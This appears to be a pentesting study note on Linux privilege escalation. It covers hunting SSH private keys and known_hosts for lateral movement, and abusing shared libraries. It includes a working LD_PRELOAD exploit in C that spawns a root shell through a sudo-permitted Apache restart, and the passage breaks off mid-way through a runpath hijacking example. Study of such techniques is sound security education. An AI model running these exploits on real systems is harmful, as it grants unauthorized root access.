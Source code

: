 We may locate a private key for another, more privileged user. We may also find SSH keys that can be used to access other hosts in the environment. Whenever finding SSH keys, check the `known_hosts` (`~/.ssh/known_hosts`) file to find targets.  

<br />

## Shared Libraries

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file  

Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions in this library are given preference over the default ones.  

### LD_PRELOAD Privilege Escalation

This is an example. We have sudo rights to restart the Apache service.  
Apache is not in GTFOBins and the `/etc/sudoers` entry is written specifying the absolute path. We can exploit the `LD_PRELOAD` variable to run a custom shared library file  

Compile the folling library:  
```C
/* gcc -fPIC -shared -o root.so root.c -nostartfiles */
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then run:  
`sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`  
and we get a root shell  

<br />

## Shared Object Hijacking  

As stated above, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the `readelf` utility:  
`readelf -d payroll | grep PATH`  

Example:  
We have a binary `payroll` that has `/development` as its runpath  
`ldd payroll` shows `/development/libshared.so` as a library that will be loaded  
Copy libc to /development:  
- `cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so`  
